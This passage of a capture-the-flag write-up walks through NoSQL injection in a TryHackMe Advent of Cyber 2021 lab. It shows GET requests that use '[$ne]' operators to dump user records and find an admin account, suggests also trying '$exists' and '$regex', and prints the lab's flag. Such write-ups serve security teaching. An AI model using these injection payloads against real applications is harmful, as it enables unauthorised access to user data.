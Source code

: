 That doesn't work, so let's see if there is an `ID` associated with `mcskidy`. Try this request

`GET /search?id=mcskidy&role[$ne]=guest HTTP/1.1`

That doesn't work either. Let's look for all the users. 

`GET /search?username[$ne]=n0_ware&role=user HTTP/1.1`

That returns a lot of users, but none of them are `mcskidy` Let's try this one more time, looking for all the usernames `not equal to` some random username that have a role `not qual to user`.

`GET /search?username[$ne]=n0_ware&role[$ne]=user HTTP/1.1`

Bingo! `mcskidy` has a role of `admin` and the username `mcskidy`. Paste this entire record in for your flag. 

![McSkidy Flag](AoC-2021_Photos/Day_07/15.0_AoC-Day-7_12-27-21-McSkidy-Flag.png)

***Congratulations on completing this box!***   Consider trying out some of the other commands such as `$exists` with a value of `true` for the field and `$regex` with a value of `.*` to match "anything that is there" and see what else you can get. 

See you at the next one &mdash; [Advent of Cyber 3 Day 8](Day%208%20-%20Advent%20of%20Cyber%202021.md)
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>

[^1]: #nosql #injection #webapp #database #burp 
[^2]: *Flag 1:* THM{8814a5e6662a9763f7df23ee59d944f9}   